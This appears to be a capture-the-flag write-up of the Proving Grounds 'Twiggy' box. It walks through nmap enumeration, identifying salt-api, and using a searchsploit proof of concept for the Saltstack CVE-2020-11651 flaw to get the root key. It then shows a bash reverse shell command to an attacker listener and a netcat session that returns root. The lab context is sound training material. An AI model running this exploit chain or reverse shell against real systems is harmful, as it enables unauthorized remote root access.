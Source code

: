```yaml
---
title: Proving Grounds - Twiggy
date: 2022-11-16
author: Marius
tags: [ctf, 'proving grounds', 'pg']
---
```


Easy box found in Proving Grounds practice.

### Enumeration

Checked openports with rustscan before doing an nmap scan to save few precious minutes.

```
└─$ nmap -sV -sC 192.168.209.62 -p 22,53,80,4506,4505,8000
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-16 14:21 EST
Nmap scan report for 192.168.209.62
Host is up (0.088s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
```

### Port 80

Did some enumeration on the site, directory brute-forcing, attempted SQLi on on the open fields and default admin credentials to admin page without any luck. Moving on for now.

![alt text](/assets/img/twiggy/1.png)

### Port 8000

Looks like some sort of API.

![alt text](/assets/img/twiggy/2.png)

Reviwing headers reveals this is salt-api.

```
└─$ curl -X HEAD -i 192.168.209.62:8000
Warning: Setting custom HTTP method to HEAD with -X/--request may not work the 
Warning: way you want. Consider using -I/--head instead.
HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Wed, 16 Nov 2022 19:46:27 GMT
Content-Type: application/json
Content-Length: 146
Connection: keep-alive
Access-Control-Expose-Headers: GET, POST
Vary: Accept-Encoding
Allow: GET, HEAD, POST
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
X-Upstream: salt-api/3000-1
```

### Exploitation

Googling *salt-api exploit*, I got a lot of results for Saltstack. So I checked searchsploit for any known exploits.

```
└─$ searchsploit saltstack
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Saltstack 3000.1 - Remote Code Execution                                                                       | multiple/remote/48421.txt
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Got a copy of this exploit which was a python script. So I used that to exploit the target. I had to install "salt" package with PIP  to use it though.

```
└─$ searchsploit -m 48421
└─$ mv 48421.txt poc.py
```

Looks like this worked.
```
└─$ python poc.py --master 192.168.209.62    
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (192.168.209.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: vMgqnGMHH96nB/hq+jAZQI4qE/tLPYl76AiA0YG/rQvnm0NQqiGm9TKPpdBR9/BkQBg2T1CmQHk=
```

After reviewing this code I saw it takes --exec flag to execute a command, so I inserted a reverse shell.

```
└─$ python poc.py --exec 'bash -i >& /dev/tcp/192.168.49.209/80 0>&1' --master 192.168.209.62
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (192.168.209.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: vMgqnGMHH96nB/hq+jAZQI4qE/tLPYl76AiA0YG/rQvnm0NQqiGm9TKPpdBR9/BkQBg2T1CmQHk=
[+] Attemping to execute bash -i >& /dev/tcp/192.168.49.209/80 0>&1 on 192.168.209.62
[+] Successfully scheduled job: 20221116194428136157
```

Looks like I got root shell.

```
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.49.209] from (UNKNOWN) [192.168.209.62] 38154
bash: no job control in this shell
[root@twiggy root]# whoami
whoami
root
```

And thats all. GG